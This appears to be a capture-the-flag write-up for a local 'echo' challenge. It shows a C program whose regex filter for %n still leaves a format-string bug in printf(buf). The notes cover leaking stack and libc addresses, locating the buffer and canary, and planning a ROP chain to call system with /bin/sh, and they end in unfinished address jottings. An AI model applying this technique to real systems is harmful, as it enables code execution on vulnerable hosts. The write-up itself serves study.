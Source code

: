 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "echo"
- story:  no story :/
- start docker:
```
docker compose up
nc 127.0.0.1 1024
```
- we have the following C-code
```c
int main(void)
{
    char buf[128];
    regex_t re;
    int result;

    /*
     * The overall syntax of a conversion specification is
     *   %[$][flags][width][.precision][length modifier]conversion
     * (as per `man 3 printf`)
     * So we just filter for %n...
     * Surely it is safe now (<- clueless)
     */

    if ((result = regcomp(&re, "%\\$?[-#0 +'I]*(\\*|[1-9][0-9]*)?(\\.(\\*|[1-9][0-9]*))?([hlqLjzZt]|ll|hh)?n", REG_EXTENDED | REG_NOSUB))) {
        regerror(result, &re, buf, sizeof(buf));
        errx(1, "Failed to compile regex: %s", buf);
    }

    setbuf(stdout, NULL);
    while (fgets(buf, sizeof(buf), stdin)) {
        if (regexec(&re, buf, 0, NULL, 0) != REG_NOMATCH)
            errx(1, "Hacking attempt detected!");
        printf(buf);
    }
}
```
-lets analyze the regex
```c
"%\\$?[-#0 +'I]*(\\*|[1-9][0-9]*)?(\\.(\\*|[1-9][0-9]*))?([hlqLjzZt]|ll|hh)?n"
```
- the double \\ just means that the c code contains a \, which itself esacpes the $ in the regex (else $ means finish)=> \\$ just means $
```c
"%$?  [-#0 +'I]*  (*|[1-9][0-9]*)?  (.(*|[1-9][0-9]*))?  ([hlqLjzZt]|ll|hh)?  n"
```
- below are format strings that are allowed
```
%42x     <-- write arbitrary (hardcoded) # chars
%2$*1$d  <-- leak value (as int) of first parameter ()

```


## 1) leak ASLR:
- print 64-bit values of (rdi, rsi, rdx, rcx, r8, r9, stack) in hex via
```
%1$llx
%2$llx
%3$llx
...
%400$llx
```
- 48-bit (6-Byte) values are addresses
- 64-bit values (just before an 48-bit return address) is probably the canary (same for all stackframes)
- the 35-th value is an address of libc
```
%35$llx
```

## 2) find out where stack is
i printed recognizable chars into the buffer of the stack, and then printed a vakue:
```
AAAAAAAABBBBBBBB%1$llx
```
```
rdi = 0x18
rsi = 0x1
rdx = 0x0
rcx = 0x7ffe84ee0d00                            <-- this is the address of the start of the buffer
 r8 = 0x17
 r9 = 0x5695a9ede3b0
ret + 8 (input 7) = 0xe0
ret + 16 (input 8) = 0xe0
ret + 24 (input 9) = 0x3b2fc
ret + 32 (input 10) = 0x5695a9ede2a0
ret + 40 (input 11) = 0x0
ret + 48 (input 12) = 0x4
ret + 56 (input 13) = 0x18
ret + 64 (input 14) = 0x4141414141414141        <-- buffer starts here (128Bytes = 8*16 Bytes)
ret + 72 (input 15) = 0x4242424242424242    
ret + 80 (input 16) = 0xa786c6c24363125
ret + 88 (input 17) = 0x0
ret + 96 (input 18) = 0x0
ret + 104 (input 19) = 0x0
ret + 112 (input 20) = 0x0
ret + 120 (input 21) = 0x0
ret + 128 (input 22) = 0x0
ret + 136 (input 23) = 0x0
ret + 144 (input 24) = 0x0
ret + 152 (input 25) = 0x0
ret + 160 (input 26) = 0x0
ret + 168 (input 27) = 0x0
ret + 176 (input 28) = 0x0                      <-- buffer ends here (write here address where we want to write to)
ret + 184 (input 29) = 0x0
ret + 192 (input 30) = 0x0
ret + 200 (input 31) = 0xd5e379c229233300       <-- probably canary (we do not need it)
ret + 208 (input 32) = 0x0
ret + 216 (input 33) = 0x0
ret + 224 (input 34) = 0x1
ret + 232 (input 35) = 0x767384029d90           <-- return address override with first rop gadget (pop rdi; ret;)
ret + 240 (input 36) = 0x0                      <-- write pointer to \bin\sh here (gets popped)
ret + 248 (input 37) = 0x5695a88340c0           <-- write pointer to system here (will return)
ret + 256 (input 38) = 0x100000000
ret + 264 (input 39) = 0x7ffe84ee0eb8
ret + 272 (input 40) = 0x0
ret + 280 (input 41) = 0x10276163c33eb5ef
ret + 288 (input 42) = 0x7ffe84ee0eb8
ret + 296 (input 43) = 0x5695a88340c0
ret + 304 (input 44) = 0x5695a8836dd8
ret + 312 (input 45) = 0x76738430e040
ret + 320 (input 46) = 0xefda68bfd85cb5ef
ret + 328 (input 47) = 0xfcc06966f9b4b5ef
ret + 336 (input 48) = 0x767300000000
ret + 344 (input 49) = 0x0
ret + 352 (input 50) = 0x0
ret + 360 (input 51) = 0x0
ret + 368 (input 52) = 0x0
ret + 376 (input 53) = 0xd5e379c229233300
ret + 384 (input 54) = 0x0
ret + 392 (input 55) = 0x767384029e40           <-- this is a libc pointer, clear lower 19bits to get aslr offset
```
- we want to override input 35, 36 and 37
- later on we break out of loop by sending forbidden input and hopefully trigger rop chain
- we can make our live easy and only write 8 Bytes at a time, then do another loop iteration, then we do not need to care about only writing higher and higher bytes
- first we write to "address" = start_of_buffer + 168 
    - we achieve this by writing "address" into first 8 bytes of buffer
    - then writing to the 14-th argument (is start of buffer), gets interpreted as pointer
    - thus we write to the memory we want to: "address"

- then we write to start_of_buffer + 168 + 8 = 176
- tehn we write to start_of_buffer + 168 + 8 + 8 = 184


0x7ffd6782c490

ret + 400 = 0x7ffd6782c658


ret + 264 = 0x7ffd6782c648
ret + 448 = 0x7ffd6782c640
ret + 480 = 0x7ffd6782c638



